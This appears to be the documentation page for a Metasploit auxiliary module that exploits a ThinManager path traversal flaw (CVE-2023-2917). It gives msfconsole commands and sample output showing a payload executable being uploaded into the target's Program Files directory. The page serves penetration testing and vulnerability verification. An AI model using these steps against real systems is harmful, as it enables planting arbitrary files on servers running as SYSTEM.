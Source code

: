## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.1.0 (CVE-2023-2917) to upload an arbitrary file to the target
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.1.0 on Windows 22H2
- ThinManager v13.0.1 on Windows 22H2
- ThinManager v12.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v12.0.4 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/admin/networking/thinmanager_traversal_upload2 
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > set RHOSTS <IP>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > set LFILE <local file location>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > set RFILE <remote file location>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > run
```

This should upload the local file specified through LFILE to the server, as specified in RFILE.

## Options

### LFILE
Specifies the local file to upload to the remote server.

### RFILE
Specifies the remote file location where the file will be uploaded to.

## Scenarios

Running the exploit against ThinManager v13.1.0 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(admin/networking/thinmanager_traversal_upload2) > run
[*] Running module against 192.168.137.229

[*] 192.168.137.229:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.229:2031 - The service is running, but could not be validated.
[*] 192.168.137.229:2031 - Sending handshake...
[*] 192.168.137.229:2031 - Received handshake response.
[*] 192.168.137.229:2031 - Read 27648 bytes from /tmp/payload.exe
[*] 192.168.137.229:2031 - Uploading /tmp/payload.exe as /Program Files/Rockwell Software/ThinManager/payload.exe on the remote host...
[*] 192.168.137.229:2031 - Upload request length: 27752 bytes
[!] 192.168.137.229:2031 - No response received after upload.
[+] 192.168.137.229:2031 - Upload process completed. Check if '/Program Files/Rockwell Software/ThinManager/payload.exe' exists on the target.
[*] Auxiliary module execution completed
```
